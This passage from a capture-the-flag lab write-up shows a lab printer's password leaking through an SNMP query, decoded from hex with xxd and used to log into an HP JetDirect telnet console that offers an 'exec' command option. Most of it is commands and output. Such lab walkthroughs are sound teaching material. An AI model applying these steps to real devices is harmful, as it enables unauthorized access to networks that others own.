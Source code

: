 ```bash
snmpwalk -v 2c -c Public 10.10.11.107 1
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

This seems to be some hex characters, by converting back to ascii human readable we’ll get back the following:

```bash
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xxd -r -p
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5%
```

### Exploitation

This can be the password for the HP JetDirect telnet login prompt, inside we can see the options we have while entering the console, one in particular is the exec which allows us to execute system commands:

```jsx
telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
